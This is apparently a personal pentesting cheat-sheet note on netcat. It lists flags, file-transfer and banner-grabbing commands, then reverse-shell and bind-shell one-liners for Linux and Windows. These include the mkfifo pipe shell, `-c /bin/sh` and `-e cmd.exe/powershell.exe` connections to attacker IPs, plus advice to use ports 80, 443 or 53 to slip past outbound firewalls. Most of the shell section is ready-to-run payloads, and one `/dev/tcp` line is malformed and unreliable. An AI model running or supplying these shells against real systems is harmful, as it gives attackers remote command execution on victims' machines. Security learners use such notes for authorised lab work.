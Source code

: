```yaml
---
{"dg-publish":true,"permalink":"/notes/netcat/"}
---
```


- "Swiss Army Knife" of networking.
- Perform all kinds of network interactions.
- Support [[TCP\|TCP]] and [[UDP\|UDP]]
- Used to receive reverse shells and connect to remote ports attached to bind shells on a target system.
- If you choose to use a **port below 1024**, you will need to use `sudo` when starting your listener.
- It's **good idea** to **use** a **well-known** port number (**80, 443 or 53** being good choices) as this is more likely to get **past** outbound **firewall rules** on the target.

| Command   | Description                                                                        |
| --------- | ---------------------------------------------------------------------------------- |
| `-l`      | is used to tell netcat that this will be a listener                                |
| `-n`      | tells netcat not to resolve host names or use DNS. avoid DNS lookups and warnings. |
| `-v`      | is used to request a verbose output                                                |
| `-p`      | indicates that the port specification will follow.                                 |
| `-vv`     | Very Verbose (optional)                                                            |
| `-k`      | Keep listening after client disconnects                                            |
| `-w SECS` | Timeout for connects and final net reads                                           |
| `-u`      | Over [[UDP\|UDP]]                                                                       |
# Normal Connection
Listener Machine 1
```shell
nc -lnvp PORT
```

Secondary Machine 2
```shell
nc -nv IP_MACHINE_1 PORT
```
# Transfer files
1. On the destination machine
```shell
nc -lnvp 1234 > file.txt
```
2. On the source machine
```shell
nc -nv IP_destination 1234 < file.txt
```

# Banner grabbing
Connect to a service to get the *Banner Grabber*
```shell
nc -nv IP PORT
```
# Reverse shell

## On the attacker (Listener)
65535 total number of ports
Start a listener using rlwrap to try to simulate an interactive console
``` sh
rlwrap nc -lnvp 4747
```
ncat has more options like encrypt with ssl
``` bash
ncat --ssl 127.0.0.1 30001
```
To open tcp/udp in a host, assosiate a shell to a port, force UDP/TCP conexions
```bash
nc localhost 4747
```
## On the target
### Linux
Send a bash
```sh
nc <LOCAL-IP> <PORT> -c /bin/sh
nc <LOCAL-IP> <PORT> -c /bin/bash
nc -e /dev/tcp/ipattacker/443 0>&1
```
Create a [[named pipe\|named pipe]]
this is **not included in most versions of netcat** as it is widely seen to be very insecure
```sh
mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <LOCAL-IP> <PORT> >/tmp/f
```
### Windows
**On Windows** this technique will **work perfectly**, where a static binary is nearly always required
Send a cmd
```sh
nc 10.10.38.232 443 -e “cmd.exe”
```
Send a powershell
```sh
nc 10.10.38.232 443 -e “powershell.exe”
```
# Bind shell
## On the target (Listener)
### Linux
```bash
nc -lnvp <port> -c /bin/sh
nc -lnvp <port> -c /bin/bash
```

On Linux, however, we would instead use this code to create a listener for a bind shell:
[[named pipe\|named pipe]]
```sh
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
### Windows
Or get a cmd on windows
```sh
nc -lvnp <port> -e "cmd.exe"
```
## On the attacker
```bash
nc -nv <target-ip> <chosen-port>
```

